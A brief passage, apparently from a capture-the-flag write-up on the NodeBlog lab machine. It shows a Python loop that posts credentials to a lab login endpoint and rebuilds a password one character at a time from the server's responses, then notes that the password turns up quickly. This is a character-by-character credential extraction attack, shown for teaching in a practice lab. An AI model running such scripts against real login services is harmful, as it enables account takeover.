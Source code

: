 ```
            payload = {'user': user, 'password': password + c}
            resp = requests.post('http://10.10.11.139:5000/login', json=payload)
            password += c
            if not 'Invalid Password' in resp.text:
                print(f'\r{password}')
                found = True
            break

```

It finds the password pretty quickly:

![](https://0xdfimages.gitlab.io/img/nodeblog-brute-password.gif)